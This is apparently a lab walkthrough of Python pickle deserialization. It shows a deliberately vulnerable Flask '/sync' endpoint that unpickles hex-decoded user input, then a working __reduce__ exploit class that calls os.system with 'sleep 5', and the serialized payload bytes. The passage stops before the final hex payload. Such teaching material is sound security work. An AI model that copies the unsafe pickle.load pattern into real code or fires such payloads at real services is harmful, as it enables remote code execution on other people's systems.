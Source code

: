 - Intercept the request on burp and send some random text. It looks like the application sends POST request to **/sync** and the body parameter is **data_obj**
![image](https://user-images.githubusercontent.com/47778874/226195588-b3c6f568-cdf0-4a50-adb8-de3decb0b5fe.png)

- Lets view the source code **DES-Pickle.py**<br>
```python
@app.route("/sync", methods=['POST'])
def deserialization():
        with open("pickle.hacker", "wb+") as file:
            att = request.form['data_obj']
            attack = bytes.fromhex(att)
            file.write(attack)
            file.close()
        with open('pickle.hacker', 'rb') as handle:
            a = pickle.load(handle)
            print(attack)
            return render_template("index.html", content = a)
```
- Viewing the source code we can find that when POST request is performed on **/sync** path, a method **deserialization()** is triggered. The method stores the value obtained from data_obj parameter and save it to **pickle.handler**. And then it deserializes the data from **picke.handler** file using pickle.load method and renders the output in an HTML file.
- The method called **reduce()** doesn't require any input and should provide a string or a tuple as its output. The resulting object is commonly known as the **reduce value.** If a tuple is returned, it must contain between two and six items, and optional items can be left out or replaced with None. The meaning of each item is as follows, in order:
    - A callable object that will be used to create the object's initial version.
    - A tuple of arguments to pass to the callable object. If the callable doesn't accept any arguments, an empty tuple must be provided.
   
- In order to exploit it, we need to create a serialize data. Pickle allows different objects to declare how they should be pickled using the **__reduce__** method. Whenever an object is pickled, the **__reduce__** method defined by it gets called. 
- In the below code we are just defining a class **test123** which contains the **__reduce__method**, it returns a callable object as **os.system()** and a tuple of arguments as **sleep 5**.<br>

```python
import os
import pickle

class test123():
	def __reduce__(self):
		return (os.system, ('sleep 5',))

data123 = pickle.dumps(test123())
print(data123)
```
- Running the code we can have
```bash
python3 deseee.py
b'\x80\x04\x95"\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x07sleep 5\x94\x85\x94R\x94.'
```
- Since the application DES-Pickle.py have bytes.fromhex() method implemented, we need to convert the above binary into hex. We can do it using binascii.hexlify(). It makes our final payload as
